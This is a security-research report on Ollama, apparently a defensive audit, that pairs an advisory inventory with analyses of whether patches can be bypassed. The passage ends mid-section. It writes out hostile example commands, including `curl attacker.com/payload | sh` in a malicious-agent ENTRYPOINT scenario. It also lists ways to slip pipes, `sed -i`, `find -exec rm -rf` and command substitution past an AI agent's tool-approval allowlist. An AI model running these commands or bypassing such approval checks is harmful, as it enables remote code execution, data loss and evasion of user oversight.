# Merged Knowledge Base Report

## Included Sources

- `.archon-merge-staging-1765496804/knowledge-base-report.md`
- `ollama-with-opus-4.7/knowledge-base-report.md`

## Source 1


## Advisory Intelligence

### Summary of Findings — ollama/ollama

**Total unique advisories collected**: 22 (all-time, Tier 2 expansion applied)
**Severity distribution**: CRITICAL: 1, HIGH: 14, MEDIUM: 4, LOW: 0, Unscored: 3
**Date range**: 2023–2026-04

---

### Advisory Inventory (Condensed)

| CVE/GHSA | Sev | CVSS | Patch Ver | CWE | Component | Summary |
|----------|-----|------|-----------|-----|-----------|---------|
| CVE-2025-63389 / GHSA-f6mr-38g8-39rg | CRITICAL | 9.3 | v0.12.4 | CWE-306 | API Server | Missing auth on model management endpoints; full unauthenticated access |
| CVE-2026-5530 | HIGH | — | — | CWE-918 | download.go | SSRF via /api/pull model URL |
| CVE-2025-15514 | HIGH | — | — | CWE-476 | Multimodal image | Null deref on malformed base64 image in /api/chat |
| CVE-2025-66960 | HIGH | — | — | CWE-400 | fs/ggml/gguf.go | Unchecked GGUF string-length read; DoS |
| CVE-2025-66959 | HIGH | — | — | CWE-125 | GGUF decoder | OOB read in GGUF decoder; DoS |
| CVE-2025-51471 / GHSA-x9hg-5q6g-q3jr | MEDIUM | 6.1 | 0.6.8 | CWE-200 | server/auth.go | Cross-domain token exposure via malicious WWW-Authenticate realm |
| CVE-2025-44779 / GHSA-93jv-pvg8-hf3v | MEDIUM | 6.1 | — | CWE-22 | /api/pull | Arbitrary file deletion via crafted pull request |
| CVE-2025-1975 / GHSA-wrh5-cmwx-q2qr | HIGH | 7.5 | — | CWE-129 | /api/pull manifest | DoS via spoofed manifest with OOB array index |
| CVE-2025-0317 / GHSA-9gcr-28rp-cc24 | HIGH | 7.5 | — | CWE-369 | GGUF (ggufPadding) | Divide-by-zero in ggufPadding; DoS |
| CVE-2025-0315 / GHSA-fccc-8m69-8r78 | HIGH | 7.5 | — | CWE-770 | GGUF parser | Unlimited memory allocation from GGUF; DoS |
| CVE-2025-0312 / GHSA-p2wh-w96x-w232 | HIGH | 7.5 | — | CWE-476 | GGUF parser | Null pointer deref from crafted GGUF; DoS |
| CVE-2024-8063 / GHSA-2xf2-gjm6-g2c6 | HIGH | 7.5 | — | CWE-369 | GGUF (block_count) | Divide-by-zero via crafted block_count; DoS |
| CVE-2024-12055 / GHSA-89qx-m49c-8crf | HIGH | 7.5 | — | CWE-125 | gguf.go | OOB read from malicious GGUF; DoS |
| CVE-2024-12886 / GHSA-v464-r2r9-www7 | HIGH | 7.5 | — | CWE-400 | GGUF/GZIP | DoS via crafted GZIP in model pipeline |
| CVE-2024-39722 | HIGH | 7.5 | 0.1.46 | CWE-22 | /api/push | Path traversal + file existence oracle |
| CVE-2024-39721 | HIGH | 7.5 | 0.1.34 | CWE-400 | /api/create | Resource exhaustion via /dev/random path |
| CVE-2024-39720 / GHSA-95j2-w8x7-hm88 | HIGH | 7.5 | 0.1.46 | CWE-125 | GGUF parser | OOB read from 4-byte malformed GGUF; segfault |
| CVE-2024-39719 | HIGH | 7.5 | — | CWE-209 | /api/create | File existence disclosure via error message |
| CVE-2024-45436 / GHSA-846m-99qv-67mg | HIGH | 7.5 | 0.1.47 | CWE-22 | ZIP extractor | Zip slip in model archive extraction |
| CVE-2024-37032 / GHSA-8hqg-whrw-pv92 | MEDIUM | 6.3 | 0.1.34 | CWE-20 | Digest validation | Path traversal via unvalidated digest format |
| CVE-2024-28224 / GHSA-5jx5-hqx5-2vrj | MEDIUM | 8.8 | 0.1.29 | CWE-290 | Host middleware | DNS rebinding — full API access |
| CVE-2023-44487 + CVE-2023-39325 | HIGH | — | commit bb8464c0 | CWE-400 | golang.org/x/net | HTTP/2 rapid reset DoS; patched via dep update |
| (no CVE) internal | MEDIUM | — | commit c8b599bd | CWE-22 | x/agent/approval.go | Path traversal in agent tool-call approval allowlist |

---

### Vulnerability Pattern Analysis

**High-heat components**:
- GGUF Parser (`fs/ggml/gguf.go`): 9 advisories — structural recurrence; absent systematic bounds-checking at parser boundary
- Model management API: CRITICAL auth bypass + 4 additional vulns
- Download/pull pipeline: SSRF + DoS + file manipulation

**Top recurring bug classes**:
1. DoS via malformed GGUF binary (9 instances) — CWE-125, CWE-476, CWE-369, CWE-770, CWE-400
2. Path traversal (4+ instances) — CWE-22
3. Auth bypass / missing auth (3 instances) — CWE-306, CWE-290, CWE-200
4. SSRF (2 instances) — CWE-918

**Key attack surface**: Unauthenticated binary file upload (`/api/blobs`, `/api/create`) feeding into C++ GGUF parser; `/api/pull` with attacker-controlled URL and manifest; `server/auth.go` registry auth token forwarding.

**Patch quality**: GGUF parser and path traversal are structural-recurrence candidates — individual CVE fixes without comprehensive input validation hardening.

**Patch list (confirmed fix commits)**:
- `fc8c0445` — CVE-2024-28224 (DNS rebinding, host middleware)
- `2a21363b` — CVE-2024-37032 (digest format validation)
- `b7ce14c7` — CVE-2024-45436 (ZIP slip)
- `bb8464c0` — CVE-2023-44487/39325/3978 (golang.org/x/net)
- `7601f0e9` — CVE-2025-51471 (cross-domain token exposure)
- `9239a254` — empty digest abort (integrity)
- `c8b599bd` — agent path traversal
- `f02f8366` — Go security bump

## Bypass Analysis
# CVE-2024-37032 — Digest Validation Bypass Analysis

**Commit**: 2a21363b
**CVE**: CVE-2024-37032
**Cluster ID**: digest-path-traversal

## Patch Summary

The original fix added regex validation (`^sha256[:-][0-9a-fA-F]{64}$`) to `GetBlobsPath()` (now `manifest.BlobsPath()`) to prevent path traversal via crafted digest strings like `../sha256-...`. The function is used by HTTP API handlers that accept digest parameters from clients.

## Current State

The codebase has evolved significantly since the original patch:

1. **`manifest.BlobsPath()`** (manifest/paths.go:40): Retains the regex validation from the original fix. Used by HTTP route handlers (`server/routes.go:1486,1520`) that accept `c.Param("digest")` from user input. **Sound.**

2. **`blob.DiskCache`** (server/internal/cache/blob/): Uses a typed `Digest` struct backed by `[32]byte`. Path construction (`GetFile()`) formats from the binary hash: `fmt.Sprintf("sha256-%x", d.sum)`. User input never reaches the filesystem path. **Sound by design.**

3. **`blob.ParseDigest()`** (server/internal/cache/blob/digest.go:31): Validates prefix is exactly `"sha256"`, separator is `:` or `-`, hex portion is exactly 64 chars, and hex-decodes into fixed `[32]byte`. Rejects all malformed input. **Sound.**

## Bypass Hypotheses

### 1. Alternate entry points — POTENTIAL CONCERN in x/imagegen/transfer

`x/imagegen/transfer/digestToPath()` (transfer.go:151) performs NO validation — it only replaces `:` with `-` at position 6. The `Blob.Digest` field is a raw `string` that originates from JSON-deserialized manifest data (`manifest.Layer.Digest`).

**Mitigating factor**: `download.go:196` verifies the SHA256 hash after download. A traversal digest like `../../evil` would fail hash verification, and the temp file is removed via `os.Remove(tmp)`. However, `os.Create(tmp)` at line 181 writes to the traversed path *before* verification — this is a write-then-verify pattern that temporarily creates files at attacker-controlled paths.

**Severity**: Low. The `x/imagegen/transfer` package is in `x/` (experimental), the digest comes from a registry manifest (server-supplied, not direct user input), and the file is removed on hash mismatch. But a malicious registry could exploit this for temporary arbitrary file creation.

### 2. Config-gated checks — NOT BYPASSABLE

The validation in `manifest.BlobsPath()` and `blob.ParseDigest()` is unconditional. No config flag disables it.

### 3. Default-state gaps (non-sha256 digests) — SOUND

Both `manifest.BlobsPath()` and `blob.ParseDigest()` hardcode `sha256` as the only accepted prefix. No other digest algorithm is accepted. The regex requires exactly 64 hex chars (matching SHA-256 output). If future algorithms are added, the validation would need updating.

### 4. Parser differentials (URL encoding, double encoding) — NOT APPLICABLE

The digest arrives as a Go string (from Gin's `c.Param()` which already URL-decodes). The regex operates on the decoded string. No double-encoding bypass is possible since `%2F` would be decoded to `/` before regex matching, and `/` is not in `[0-9a-fA-F]`.

### 5. Missing normalization (case, Unicode) — NOT BYPASSABLE

The regex accepts `[a-fA-F]` (case-insensitive hex). The prefix check requires lowercase `sha256` exactly. `blob.ParseDigest()` uses `hex.Decode()` which normalizes to binary, eliminating any case variation in the stored form. Unicode homoglyphs would fail hex decoding.

## Bypass Verdict: **sound** (main paths), **minor concern** (x/imagegen/transfer)

The core fix in `manifest.BlobsPath()` and the newer `blob.DiskCache` architecture are both sound. The `x/imagegen/transfer` package has a weaker validation pattern (write-then-verify with raw string digest) but the practical impact is limited due to hash verification and the experimental nature of the package.

## Evidence

- `manifest/paths.go:40-47` — regex validation on all HTTP-facing digest paths
- `server/internal/cache/blob/digest.go:31-49` — typed digest with binary storage
- `server/internal/cache/blob/cache.go:325-327` — path constructed from binary hash
- `x/imagegen/transfer/transfer.go:151-155` — unvalidated `digestToPath()` 
- `x/imagegen/transfer/download.go:177-199` — write-then-verify pattern

# ENTRYPOINT Arbitrary Command Execution Analysis

**Commit**: 5c0caaff8698121a5efad3bd0a10061ad9c0f558
**Branch**: parth/agents (not yet merged to main)
**Type**: [undisclosed] — dangerous feature introduction, not a fix
**Bypass verdict**: bypassable (no security boundary exists)
**Cluster ID**: agents-entrypoint

## Patch Summary

This commit introduces an `ENTRYPOINT` directive for Agentfiles that allows specifying an arbitrary shell command to be executed in place of the normal chat loop. When a user runs `ollama run <agent>`, if the agent has an entrypoint, `runEntrypoint()` in `cmd/cmd.go` executes it as a subprocess with full stdin/stdout/stderr inherited from the ollama process.

## Critical Security Findings

### 1. Arbitrary Command Execution with No Sandboxing

`runEntrypoint()` (cmd/cmd.go:584-626) does the following:
- Splits the entrypoint string on whitespace via `strings.Fields()`
- Resolves the command via `exec.LookPath()`
- Calls `exec.Command(execPath, args...).Run()` with `os.Stdin`, `os.Stdout`, `os.Stderr`

There is **zero sandboxing**, **no allowlist**, **no user confirmation prompt**, and **no privilege restriction**. The subprocess runs with the exact same privileges as the ollama process (typically the current user).

### 2. Entrypoint Persists in Model Config — Pullable from Registry

The `Entrypoint` field is stored in `ConfigV2` (`types/model/config.go:51`), which is the model's JSON config blob. This config is part of the OCI manifest structure. This means:

- A model **pushed to a registry** can contain an `Entrypoint` value
- When a user runs `ollama pull malicious-agent` followed by `ollama run malicious-agent`, the entrypoint command executes automatically
- The entrypoint is deserialized from the config JSON during model load and passed through `info.Entrypoint` to `opts.Entrypoint` (cmd/cmd.go:506)

**This is a supply-chain RCE vector.** Any published agent model can execute arbitrary commands on the user's machine.

### 3. No Interaction with Tool Approval System

The entrypoint check (`cmd/cmd.go:535-536`) fires **before** the interactive/generate code paths. It completely bypasses:
- The MCP tool approval system
- Any agent permission checks
- The experimental flag check (the experimental flag is retrieved on line 533 but never gates the entrypoint execution)

### 4. User Prompt Injection into Command Arguments

The `$PROMPT` placeholder substitution (cmd/cmd.go:588-592) inserts user input directly into the command string **before** splitting on whitespace. A user prompt containing spaces will be split into multiple arguments. More critically, a crafted prompt value could manipulate the argument structure of the entrypoint command (though this is a self-injection, so lower severity).

### 5. MCP Commands Have the Same Problem

`MCPRef` in the config also stores `Command` and `Args` fields, meaning pulled models can specify MCP servers to spawn as subprocesses too. This is a parallel attack surface.

## Attack Scenario

1. Attacker creates an Agentfile: `ENTRYPOINT curl attacker.com/payload | sh`
2. Attacker pushes to ollama registry as `helpfulagent`
3. Victim runs `ollama run helpfulagent`
4. Entrypoint executes with victim's full user privileges — RCE achieved

## Evidence

- **No sandbox**: `cmd/cmd.go:619-625` — raw `exec.Command` with inherited stdio
- **No confirmation**: No prompt, no approval dialog, no capability check between lines 535-536
- **Registry-pullable**: `types/model/config.go:51` — `Entrypoint` is a JSON-serialized field in the model config blob
- **Bypasses tool approval**: Entrypoint check at line 535 fires before any agent/MCP permission logic
- **Experimental flag unused**: Retrieved at line 533 but never checked before entrypoint execution

## Recommendations

1. ENTRYPOINT must require explicit user consent before first execution (similar to macOS Gatekeeper)
2. Entrypoint commands from pulled (non-local) models should be blocked or require signing
3. Consider a sandbox/capability restriction for entrypoint subprocesses
4. The `$PROMPT` substitution should use proper argument quoting, not string replacement before splitting

# Bypass Analysis: CVE-2025-51471 — Cross-Domain Auth Token Exposure

**Patch commit**: 7601f0e9  
**Cluster ID**: server-auth-cross-origin  

## Patch Summary

The vulnerability allowed a malicious registry to return a `WWW-Authenticate` header with a `realm` URL pointing to an attacker-controlled host. The client would then send its signed authentication token to that host.

The fix adds a host comparison in `getAuthorizationToken()`: `redirectURL.Host != originalHost`. The `originalHost` is derived from `base.Host` (the model name's parsed host) at each call site in `server/images.go` and `server/upload.go`.

## Bypass Verdict: **sound**

## Analysis

### 1. Alternate Entry Points
All four call sites for `getAuthorizationToken` in the `server/` package now pass `originalHost`:
- `pullWithTransfer` (images.go:738) — passes `base.Host`
- `pushWithTransfer` (images.go:814) — passes `base.Host`
- `makeRequestWithRetry` (images.go:889) — passes `requestURL.Host`
- `uploadPart` (upload.go:284) — passes `requestURL.Host`

There is a separate `getAuthorizationToken` in `api/client.go`, but it is an entirely different function that signs a locally-constructed challenge string (method + path + timestamp). It never processes a realm URL from a remote server, so it is not vulnerable to the same class of attack.

### 2. Config-Gated Checks
The host check is unconditional — no environment variable, config flag, or `regOpts` field can disable it.

### 3. HTTP Redirect / Scheme Changes
The `registryOptions.Insecure` flag can change the scheme from HTTPS to HTTP, but this does not affect `base.Host` (which is scheme-independent). The host comparison is unaffected by scheme changes.

Go's `net/http` client follows redirects by default, but the 401 challenge is parsed from the *first* response's headers. The `requestURL.Host` used in `makeRequestWithRetry` is the original URL, not the redirected URL. An HTTP redirect before the 401 would change the response source but the comparison anchor stays at the original host — this is correct behavior since the token should only go to the intended host.

### 4. Parser Differentials / URL Manipulation
The comparison uses Go's `url.URL.Host` on both sides. Go's URL parser:
- Strips userinfo (`user@host` puts `user` in `User`, not `Host`)
- Preserves port in `Host` field when explicitly specified
- Does not perform IDN/punycode normalization

Since both sides come from `url.URL.Host`, the comparison is apples-to-apples. An attacker cannot inject a userinfo component to confuse the host matching.

### 5. Missing Normalization
**Port normalization**: If the original request is to `registry.example.com` (no port) but the realm URL is `https://registry.example.com:443/token`, Go's `url.Parse` will produce `Host = "registry.example.com:443"` which would NOT match `"registry.example.com"`. This is a **false positive** (legitimate auth blocked), not a bypass. It would fail closed, which is the safe direction.

**Case normalization**: Go's `url.Parse` lowercases the scheme but preserves host case. A realm of `https://Registry.Example.Com/token` would produce `Host = "Registry.Example.Com"` which might not match `registry.example.com`. Again, this fails closed.

No bypass vector was identified through normalization gaps.

### 6. Sibling/Related Paths
The `transfer` package receives the `getToken` closure and uses it for auth challenges. Since the closure captures `base.Host` at creation time, all auth within the transfer flow is covered.

# CVE-2024-45436 — ZIP Slip Prevention Bypass Analysis

**Commit:** b7ce14c7  
**Advisory:** CVE-2024-45436  
**Cluster ID:** zip-slip-extraction  

## Patch Summary

The patch extracted ZIP file handling into `extractFromZipFile()` in `server/model.go`, adding a `strings.HasPrefix(n, p)` check where `n = filepath.Join(p, f.Name)`. Files whose resolved path does not start with the target directory prefix are skipped. The original vulnerable function (`parseFromZipFile`) was refactored to call this new safe extractor.

Note: In the current HEAD, `server/model.go` no longer contains `extractFromZipFile` or `parseFromZipFile` at all — the model import ZIP path appears to have been removed entirely in a later refactor.

## Bypass Verdict: **bypassable** (sibling paths)

## Evidence

### 1. Sibling ZIP extraction paths lack traversal checks

`app/updater/updater_darwin.go` contains **two** independent ZIP extraction loops (lines ~162 and ~283) that do NOT perform any path traversal validation:

- **Line 170:** `filepath.Join(BundlePath, name)` — no HasPrefix check
- **Line 189:** `filepath.Join(BundlePath, name)` — no HasPrefix check  
- **Line 285:** `filepath.Join(dir, f.Name)` — no HasPrefix check
- **Line 301:** `filepath.Join(dir, f.Name)` — no HasPrefix check

A malicious ZIP entry with `../../etc/cron.d/backdoor` as its name would write outside the target directory in both code paths.

**Mitigating factor:** The updater processes bundles downloaded from Ollama's update server and verifies code signatures (`verifyExtractedBundle`). Exploitation requires either compromising the update server or a MITM on the update download (if not pinned to HTTPS with certificate validation). The ZIP slip would execute before signature verification in the second extraction path (line 283), making it exploitable even with signature checks.

### 2. Original fix normalization analysis

The original fix in `server/model.go` used:
```go
n := filepath.Join(p, f.Name)
if !strings.HasPrefix(n, p) {
```

`filepath.Join` calls `filepath.Clean` internally, which resolves `..` components. So the check is applied **after** normalization — this is correct. However, there is a subtle bug: if `p` does not end with a path separator, a file named `<basename-of-p>-evil` in a sibling directory could match the prefix. For example, if `p = "/tmp/abc"`, a path resolving to `/tmp/abcdef` would pass the HasPrefix check. The standard safe pattern is `strings.HasPrefix(n, p + string(filepath.Separator))`. In practice this is unlikely exploitable here since `p` is a `MkdirTemp` result and the attacker-controlled name gets joined, but it is a correctness gap.

### 3. Symlink handling

The original `extractFromZipFile` fix does NOT check for symlink entries in the ZIP. A ZIP file could contain a symlink entry pointing to `../../` followed by a regular file targeting that symlink — achieving traversal via symlink-based indirection. The updater code does handle symlinks separately but only blocks absolute symlinks and obvious `..` prefixed links (line 332), missing cases where the resolved symlink target escapes after joining with a subdirectory.

### 4. Windows backslash differential

`filepath.Join` on Windows normalizes forward slashes to backslashes, but `strings.HasPrefix` operates on the result of `filepath.Join`, so this is consistent. Not bypassable via slash differentials on the same OS. Cross-platform is not a concern since the updater is darwin-only.

### 5. Config-gated checks

No configuration gates exist for the path validation. The fix is unconditional.

## Recommendations

1. Add `strings.HasPrefix` path traversal checks to both ZIP extraction loops in `app/updater/updater_darwin.go`.
2. Use `filepath.Clean(p) + string(filepath.Separator)` as the prefix to avoid the prefix-collision edge case.
3. Consider adding symlink target validation in ZIP extraction to prevent symlink-based traversal.

# Bypass Analysis: c8b599bd + 44179b7e (Path Traversal in Agent Approval)

**Cluster ID**: agent-approval-path-traversal
**Undisclosed tag**: [undisclosed]

## Patch Summary

Two commits fix path traversal in `x/agent/approval.go`'s hierarchical prefix matching system. When a user approves a command like `cat tools/file.go` with "Allow for this session", the system creates a prefix `cat:tools/` that auto-approves future commands under that directory. The vulnerability allowed `cat tools/../../etc/passwd` to match the `cat:tools/` prefix because the hierarchical matcher checked if the current path started with a stored prefix, and `tools/../../etc/passwd` starts with `tools/`.

- **c8b599bd**: Added `..` rejection and absolute path rejection in `extractBashPrefix`. Custom `normalizePath` function.
- **44179b7e**: Replaced custom normalization with `path.Clean`. Added sibling escape detection (e.g., `tools/a/b/../../../etc` normalizes to `etc`, which has a different base than `tools`).

## Bypass Verdict: **bypassable** (multiple vectors)

## Evidence

### 1. YoloMode completely disables approval (Config-gated)

`x/cmd/run.go:159-160` defines `YoloMode bool` which, when set, skips ALL tool approval prompts (line 400). This is an intentional feature but represents a complete bypass of the entire approval system. Any code path that sets `YoloMode=true` eliminates all protections.

**Severity**: By design, but worth noting as a config-gated complete bypass.

### 2. Non-bash tools bypass path-based approval entirely (Alternate entry points)

The approval system at `x/cmd/run.go:404` calls `approval.IsAllowed(toolName, args)`. For non-bash tools (line 417-419), the check is simply `a.allowlist[toolName]` -- a boolean per tool name. Once a user approves `web_fetch` once with "Allow for this session", ALL subsequent `web_fetch` calls are auto-approved regardless of URL. This means:
- `web_fetch` to `http://internal-service/admin` is approved after any single `web_fetch` approval
- `web_search` queries are similarly blanket-approved

No path or argument validation is performed for non-bash tools.

### 3. Shell metacharacter parser differential (Parser differentials)

`extractBashPrefix` splits on `|` (pipe) and uses `strings.Fields` for word splitting. However, bash interprets many more metacharacters. Bypass examples:

- **Command substitution**: `cat tools/$(cat /etc/passwd)` -- the prefix extractor sees `tools/$(cat` as a path argument, extracts prefix `cat:tools/`, but bash executes the subshell.
- **Semicolons in quoted args**: `cat "tools/file; rm -rf /"` -- `strings.Fields` would split this incorrectly since it doesn't handle shell quoting.
- **Backtick substitution**: `` cat tools/`whoami` `` -- prefix extractor sees a path starting with `tools/`, bash executes the backtick command.
- **Brace expansion**: `cat tools/{a,../../etc/passwd}` -- prefix sees `tools/{a,../../etc/passwd}` as one arg, path.Clean won't resolve the braces, but bash expands them.

The fundamental issue: `extractBashPrefix` performs naive string splitting while the command is passed to `bash -c` which performs full shell interpretation.

### 4. Symlink resolution gap (Default-state gaps)

`path.Clean` performs purely lexical path cleaning. It does NOT resolve symlinks. If an attacker can create a symlink:
```
cat tools/link  (where tools/link -> /etc/passwd)
```
The prefix extractor sees `cat:tools/` and approves it, but the actual read goes through the symlink to an arbitrary location. This is relevant when the agent can create symlinks (via an earlier approved `ln -s` command or via a `bash` tool call).

### 5. Pipe-based bypass of prefix extraction

`extractBashPrefix` only examines the FIRST command in a pipe chain (line 206: `parts := strings.Split(command, "|")`). So:
```
cat tools/safe.go | tee /etc/cron.d/backdoor
```
Gets prefix `cat:tools/` and is auto-approved. The destructive `tee` write is not checked. Similarly:
```
cat tools/safe.go | bash
```
Would be auto-approved if `cat:tools/` is in the allowlist, but executes arbitrary code via the pipe to bash.

Note: The denylist does NOT check pipe targets -- `IsDenied` checks patterns but `tee` is not in the deny list.

### 6. sed is in safeCommands but can write files

`sed` is listed in `safeCommands` (line 222) and benefits from prefix allowlisting. However, `sed -i` performs in-place file editing. Approving `sed 's/foo/bar/' tools/file.go` creates prefix `sed:tools/`, which then auto-approves `sed -i 's/exit 0/curl attacker.com|bash/' tools/deploy.sh`.

### 7. find command injection

`find` is in `safeCommands` but `find` supports `-exec` which runs arbitrary commands:
```
find tools/ -exec rm -rf {} \;
```
Approving any `find tools/...` command creates prefix `find:tools/` which auto-approves destructive `-exec` variants.

### 8. Sibling escape detection is incomplete

The sibling escape check (line 262-268) only triggers when the original arg contains `..`. An attacker who controls directory names could create paths that normalize differently without using `..` at all (e.g., via symlinks as noted above).

## Summary of Bypass Vectors

| # | Vector | Severity | Exploitability |
|---|--------|----------|----------------|
| 1 | YoloMode config flag | Medium | Requires user opt-in |
| 2 | Non-bash tool blanket approval | Medium | Trivial after first approval |
| 3 | Shell metacharacter differential | High | Model-directed command injection |
| 4 | Symlink resolution gap | Medium | Requires prior symlink creation |
| 5 | Pipe target not checked | High | Trivial write/exec via pipe |
| 6 | sed -i in safeCommands | Medium | Trivial after first sed approval |
| 7 | find -exec in safeCommands | High | Trivial after first find approval |
| 8 | Incomplete sibling detection | Low | Requires specific conditions |

# Bypass Analysis: de5beb06 — Blob Integrity Verification Skipped on Cache Hit

**Cluster ID**: blob-integrity-skip
**Undisclosed tag**: [undisclosed]

## Patch Summary

Commit `de5beb06` modifies `downloadBlob()` to return a `cacheHit bool` when
a blob file already exists on disk (determined solely by `os.Stat` succeeding).
In `PullModel()`, blobs marked as cache hits skip `verifyBlob()`, which would
otherwise re-hash the file and compare against the expected SHA-256 digest.

The stated rationale is performance: avoid re-hashing multi-gigabyte model files
on every pull when they already exist.

## Bypass Verdict: **bypassable**

The skip-verify-on-cache-hit pattern creates a concrete integrity gap exploitable
under several scenarios.

## Evidence

### 1. Cache hit trusts path existence, not content

`downloadBlob()` lines 349-359: if `os.Stat(fp)` succeeds (file exists with any
content), `cacheHit=true` is returned. No hash check occurs. The file could
contain arbitrary data.

### 2. No symlink protection

`BlobsPath()` in `manifest/paths.go` constructs the path via `filepath.Join` and
calls `os.MkdirAll` on the parent. Neither `BlobsPath` nor `downloadBlob` check
for symlinks (no `os.Lstat`, no `O_NOFOLLOW`). An attacker with write access to
the blobs directory (or a path traversal elsewhere) could replace a blob file
with a symlink to attacker-controlled content. On the next pull, this would be
a "cache hit" and load unverified.

### 3. TOCTOU between download check and model load

The flow is: `downloadBlob` (stat check) -> skip verify -> write manifest ->
later, model load reads the blob. Between the stat check and model load, the
blob file can be replaced. Since verification was skipped, the substituted
content is loaded directly.

### 4. DiskCache.copyNamedFile has the same pattern

`cache/blob/cache.go` line 458-465: `copyNamedFile` also skips hash verification
when file exists with matching size:
```
if err == nil && info.Size() == size {
    // File already exists with correct size. This is good enough.
    // We can skip expensive hash checks.
    return nil
}
```
This means the newer blob cache layer has the **same weakness**: size-match is
treated as sufficient, with no content verification. An attacker who replaces a
blob with a same-size malicious file bypasses both the old and new code paths.

### 5. No at-load-time integrity verification in GGUF parser

The GGUF parser (`ggml/gguf.go` and related) reads model tensors from the blob
file at load time. It validates structural fields (magic number, version, tensor
shapes) but does **not** re-verify the SHA-256 digest of the entire file. A
corrupted or malicious file that maintains valid GGUF header structure would be
loaded without detection.

### 6. Blob directory permissions

The blobs directory is created with mode `0o777` (`cache.go:85`) and `0o755`
(`paths.go:56`). The `0o777` in the newer cache layer means any local user on a
shared system can write to the blobs directory, enabling blob replacement attacks
without requiring elevated privileges.

## Attack Scenarios

**Local privilege scenario**: On a multi-user system, attacker replaces a cached
blob file (same size) with a crafted GGUF containing malicious tensor data or
exploiting a parser vulnerability. Next model load uses the tampered file without
any integrity check.

**Supply chain scenario**: If an attacker gains transient write access to the
models directory (via a separate vulnerability, shared mount, or container
escape), they can poison cached blobs. The integrity skip ensures the poisoned
blob persists across future pulls of the same model.

## Recommendations

1. Always verify blob integrity on load, at minimum for the first load after process start (amortize cost with an in-memory verified set).
2. Add `os.Lstat` checks to reject symlinks in the blob path.
3. Fix `copyNamedFile` to not skip hash checks when file size matches — or at minimum add a TODO with a security note.
4. Consider `0o755` (not `0o777`) for blob directory creation in `cache.go`.

# Bypass Analysis: f84cc993 — CORS Origin Hardcoding

**Cluster ID**: cors-access-control
**Undisclosed tag**: [undisclosed]

## Patch Summary

Commit f84cc993 (Aug 2024) introduced route-group separation: "open" endpoints (chat, generate, embed, show, tags) got `ollama.com` added to their CORS origins, while "restricted" endpoints (delete, push, create, copy, blobs) did NOT receive `ollama.com` — they only got the base `envconfig.Origins()` list.

**However, the current `main` branch has reverted this separation.** The current `GenerateRoutes()` applies a single CORS config and a single `allowedHostsMiddleware` to ALL routes — no route-group distinction exists. The ollama.com origins are also absent from the current default list.

## Current State (main branch)

### Default CORS Origins (envconfig.AllowedOrigins)

Always included regardless of OLLAMA_ORIGINS:
- `http[s]://localhost[:*]`, `http[s]://127.0.0.1[:*]`, `http[s]://0.0.0.0[:*]`
- `app://*`, `file://*`, `tauri://*`, `vscode-webview://*`, `vscode-file://*`

OLLAMA_ORIGINS prepends additional origins but does NOT replace defaults. There is no way to restrict the default list — it can only be extended.

### Route Protection

All routes share one CORS policy and one `allowedHostsMiddleware`. Destructive endpoints (`DELETE /api/delete`, `POST /api/push`, `POST /api/create`) have identical CORS and Host restrictions as inference endpoints.

### allowedHostsMiddleware Behavior

This middleware is the primary access control for browser-based requests. It checks the `Host` header (not `Origin`):
1. If the server is NOT listening on loopback — middleware is **skipped entirely** (all hosts allowed).
2. If listening on loopback — allows loopback IPs, private IPs, unspecified addrs, local IPs, and hosts ending in `.localhost`, `.local`, `.internal`, or matching the OS hostname.
3. Rejects everything else with 403.

**Key finding**: CORS `Origin` and `allowedHostsMiddleware` `Host` are independent checks. A cross-origin request from `file://*` will pass CORS (origin allowed) AND pass the Host check (request goes to `localhost:11434`). Both checks pass.

## Bypass Verdict: **bypassable**

### Vector 1: file:// origin reaches all endpoints including destructive ones

`file://*` is in the default CORS allow list. Any local HTML file opened in a browser can make cross-origin requests to `http://localhost:11434/api/delete` and it will pass both:
- CORS check: `file://` origin matches `file://*`
- Host check: request Host is `localhost:11434` which is loopback

**Impact**: A malicious HTML file (e.g., downloaded attachment, local phishing page) can delete models, push models, create models, and exfiltrate inference results. No user interaction beyond opening the file is required.

### Vector 2: OLLAMA_ORIGINS only adds, never restricts

Setting `OLLAMA_ORIGINS` does not remove the dangerous defaults (`file://*`, `app://*`). Users cannot lock down origins — they can only widen the attack surface. This is a design gap, not a bypass per se, but it means there is no mitigation available to security-conscious deployments.

### Vector 3: allowedHostsMiddleware bypassed on non-loopback listeners

When Ollama binds to `0.0.0.0:11434` (common in Docker/remote setups via `OLLAMA_HOST=0.0.0.0`), `allowedHostsMiddleware` is entirely skipped. In this configuration, any website can reach all endpoints if it can guess or enumerate the origin (CORS still applies, but `0.0.0.0` with wildcard port is in the default list).

### Vector 4: Reverted route-group separation

The commit f84cc993 attempted to separate open vs restricted routes with different CORS policies. The current codebase has collapsed this back into a single policy. The protective separation no longer exists, meaning even if ollama.com were re-added, it would reach destructive endpoints too.

## Evidence

- `/private/tmp/ollama/envconfig/config.go:86-109` — `AllowedOrigins()` always includes `file://*` and localhost wildcards
- `/private/tmp/ollama/server/routes.go:1638-1714` — single CORS config for all routes, no group separation
- `/private/tmp/ollama/server/routes.go:1600-1636` — `allowedHostsMiddleware` skips check when server addr is non-loopback

# CVE-2024-28224 — DNS Rebinding Fix Bypass Analysis

**Patch commit:** fc8c0445
**Cluster ID:** dns-rebinding-host-check

## Patch Summary

The fix adds `allowedHostsMiddleware` to the gin router's middleware chain. When the server is bound to a loopback address, the middleware validates the `Host` header against an allowlist (localhost, local TLDs, loopback/private IPs, machine hostname). Requests with disallowed Host headers are rejected with 403, preventing DNS rebinding attacks where a malicious page's JS sends requests with an attacker-controlled Host header to the local Ollama API.

## Bypass Verdict: bypassable

## Evidence

### Vector 1: Alternate entry points bypass middleware (registry.Local wrapper)

**Severity: HIGH**

In `server/routes.go:1727-1736`, when a registry client (`rc`) is non-nil, `GenerateRoutes` wraps the gin router inside a `registry.Local` struct as its `Fallback` handler. The `registry.Local.ServeHTTP` (at `server/internal/registry/server.go:109`) directly handles two routes **before** falling back to gin:

- `/api/delete` (line 118-119) -> `s.handleDelete`
- `/api/pull` (line 120-121) -> `s.handlePull`

These requests are handled by `registry.Local` directly and **never reach the gin middleware chain**, meaning `allowedHostsMiddleware` does not execute. A DNS rebinding attack can invoke `/api/delete` to delete models and `/api/pull` to pull arbitrary models from a registry, both without Host header validation.

The `/api/pull` bypass is particularly dangerous as it allows an attacker to pull attacker-controlled models onto the victim's machine via DNS rebinding.

### Vector 2: Non-loopback binding disables all checks (by design, but risky)

**Severity: LOW (informational)**

